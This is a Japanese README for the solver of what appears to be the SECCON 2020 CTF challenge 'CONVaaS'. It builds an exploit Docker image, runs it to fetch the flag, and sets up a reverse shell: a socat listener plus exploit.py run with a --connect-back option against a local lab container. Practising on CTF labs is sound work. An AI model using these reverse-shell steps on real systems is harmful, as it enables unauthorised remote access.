 # CONVaaS の解答検証手順

本ドキュメントでは CONVaaS のソルバによる検証方法について述べます。なお、既に [CONVaaS の起動方法](../build/README.md) の手順どおりにサービスが起動されていることを前提とします。

## ソルバの Docker イメージのビルド方法

下記の手順で exploit を含む Docker イメージをビルドできます。

1. `docker build` コマンドで Docker イメージをビルドする。

    ```sh
    docker build -t seccon-2020-online-ctf-convaas-solver .
    ```

## ソルバによるフラグの確認方法

下記の手順で CONVaaS のフラグを確認できます。

1. `docker run` コマンドでソルバを実行する。

    ```sh
    container_name=$(docker container ls --filter=name=proxy --format='{{.Names}}')
    default_network=$(docker container inspect --format='{{range $k, $v := .NetworkSettings.Networks}}{{if (eq (index (split $k "_") 1) "default")}}{{$k}}{{end}}{{end}}' "${container_name}")
    seccon_host=$(docker container inspect --format='{{.NetworkSettings.Networks.'"${default_network}"'.IPAddress}}' "${container_name}")
    seccon_port=$((0xd0c0))
    docker run --rm --network="${default_network}" -e SECCON_HOST="${seccon_host}" -e SECCON_PORT="${seccon_port}" seccon-2020-online-ctf-convaas-solver
    ```

## ソルバによるリバースシェルの確立方法

下記の手順でリバースシェルを開くことができます。

1. リバースシェル用のターミナルを開いて `stty` コマンドで端末の状態を調整し、 `socat` コマンドでリバースシェルを待つ。

    ```sh
    container_name=$(docker container ls --filter=name=proxy --format='{{.Names}}')
    default_network=$(docker container inspect --format='{{range $k, $v := .NetworkSettings.Networks}}{{if (eq (index (split $k "_") 1) "default")}}{{$k}}{{end}}{{end}}' "${container_name}")
    lhost=$(docker container inspect --format='{{.NetworkSettings.Networks.'"${default_network}"'.Gateway}}' "${container_name}")
    lport=1337
    stty raw -echo && exec socat tcp-listen:"${lport}",reuseaddr,fork,bind="${lhost}" file:"$(tty)",raw,unlink-close=0
    ```

2. 新しくターミナルを開き、 `docker run` コマンドで --connect-back オプション付きで exploit.py を実行する。

    ```sh
    container_name=$(docker container ls --filter=name=proxy --format='{{.Names}}')
    default_network=$(docker container inspect --format='{{range $k, $v := .NetworkSettings.Networks}}{{if (eq (index (split $k "_") 1) "default")}}{{$k}}{{end}}{{end}}' "${container_name}")
    lhost=$(docker container inspect --format='{{.NetworkSettings.Networks.'"${default_network}"'.Gateway}}' "${container_name}")
    lport=1337
    seccon_host=$(docker container inspect --format='{{.NetworkSettings.Networks.'"${default_network}"'.IPAddress}}' "${container_name}")
    seccon_port=$((0xd0c0))
    docker run --rm --network="${default_network}" -e SECCON_HOST="${seccon_host}" -e SECCON_PORT="${seccon_port}" seccon-2020-online-ctf-convaas-solver python exploit.py --connect-back "${lhost}":"${lport}"
    ```
